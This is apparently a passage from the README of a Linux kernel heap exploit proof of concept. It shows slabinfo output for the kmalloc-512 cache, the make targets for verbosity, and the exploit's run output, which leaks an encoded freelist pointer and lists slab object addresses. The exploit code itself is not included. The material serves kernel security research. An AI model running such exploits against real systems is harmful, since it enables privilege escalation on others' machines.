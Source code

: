 System with 8 CPUs:

```
$ sudo ./slabinfo -r "^kmalloc-512$"

Slabcache: kmalloc-512      Aliases:  0 Order :  2 Objects: 1788

Sizes (bytes)     Slabs              Debug                Memory
------------------------------------------------------------------------
Object :     512  Total  :      63   Sanity Checks : Off  Total: 1032192
SlabObj:     512  Full   :      19   Redzoning     : Off  Used :  915456
SlabSiz:   16384  Partial:      15   Poisoning     : Off  Loss :  116736
Loss   :       0  CpuSlab:      29   Tracking      : Off  Lalig:       0
Align  :     512  Objects:      32   Tracing       : Off  Lpadd:       0

kmalloc-512 has no kmem_cache operations

kmalloc-512: Kernel object allocation
-----------------------------------------------------------------------
No Data

kmalloc-512: Kernel object freeing
------------------------------------------------------------------------
No Data

kmalloc-512: No NUMA information available.
$ 
```

The tool `slabinfo` is available in the Linux kernel source code located at `tools/mm/slabinfo.c`.

The proof of concept supports three verbosity levels, available through the commands: `make verbose`, `make verbose2` and `make debug`. 

```
# make
# ./exploit

Leaked freelist encoded null pointer: 0x424dae685538b1d8


slab[0] =	0xffff888006d5e000
slab[1] =	0xffff888006d5e200
slab[2] =	0xffff888006d5e400
slab[3] =	0xffff888006d5e600
slab[4] =	0xffff888006d5e800
slab[5] =	0xffff888006d5ea00
slab[6] =	0xffff888006d5ec00
slab[7] =	0xffff888006d5ee00
slab[8] =	0xffff888006d5f000
slab[9] =	0xffff888006d5f200
slab[10] =	0xffff888006d5f400
slab[11] =	0xffff888006d5f600
slab[12] =	0xffff888006d5f800
slab[13] =	0xffff888006d5fa00
slab[14] =	0xffff888006d5fc00
slab[15] =	0xffff888006d5fe00

#
```
